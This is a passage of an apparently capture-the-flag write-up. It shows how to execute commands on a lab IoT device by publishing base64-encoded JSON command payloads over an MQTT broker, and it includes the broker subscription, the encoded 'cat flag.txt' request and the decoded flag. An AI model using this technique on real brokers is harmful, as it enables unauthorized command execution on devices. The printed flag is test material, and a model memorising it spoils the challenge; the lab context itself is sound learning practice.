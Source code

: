 ```r
echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9 | base64 --decode
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}% 
```
Nice! we see a ``flag.txt``. 

Let's do the process again, but this time we will use the ``flag.txt`` in our arguments
``{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}``

I will encode it in base64 and run the same pattern as we did before.

```r
mosquitto_sub -h 10.10.211.128 -t "#" -v
livingroom/speaker {"id":11198482597063915374,"gain":47}
storage/thermostat {"id":3001615010740800409,"temperature":23.800558}
kitchen/toaster {"id":6696800457979353322,"in_use":true,"temperature":144.47551,"toast_time":181}
patio/lights {"id":15958837671297077404,"color":"RED","status":"ON"}
XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0K
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9

```

Decode the output from Base64.
```r
echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9 | base64 --decode
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}%
```
Got flag!!